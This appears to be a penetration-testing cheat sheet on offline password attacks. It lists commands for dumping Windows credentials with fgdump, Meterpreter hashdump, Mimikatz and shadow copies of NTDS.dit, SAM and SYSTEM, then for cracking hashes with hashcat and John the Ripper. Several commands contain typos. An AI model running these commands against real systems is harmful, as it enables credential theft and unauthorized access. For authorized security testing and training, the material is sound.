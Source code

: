 # Offline Attack

### Extracting Password Hashes from Windows

#### fgdump

Run fgdump to dump local hash

> `fgdump.exe`

#### Meterpreter's Hashdump

> `meterpreter > hashdump`

#### Mimikatz
> `PS C:\temp\mimikatz> .\mimikatz`

>  `mimikatz # privilege::debug`

>  `mimikatz # sekurlsa::logonpasswords`


#### Volume Shadow Copy Services to copy ntds.dit


> `cscript vssown.vbs /start`

> `cscript vssown.vbs /create`

> `copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SAM c:\`

### Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

### Cracking the Password

#### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

#### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

> `unshadow /etc/passwd /etc/shadow >> crackme.txt`

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme.txt--wordlist=rockyou.txt`

Convert an encrypted SSH key to a format readable by John

> `ssh2john encrypted-key >> crackme-ssh`

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme-ssh --wordlist=rockyou.txt`

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

> `john--format=md5 hashes --wordlist=rockyou.txt`

John configuration file

* Linux
  > john.conf
* Windows 
  > john.ini

john.pot file is where the cracking results stored.

> `john --show [password_file]`

john.rec is the recovery file in the event of a crash. To restore cracking

> `john --restore`



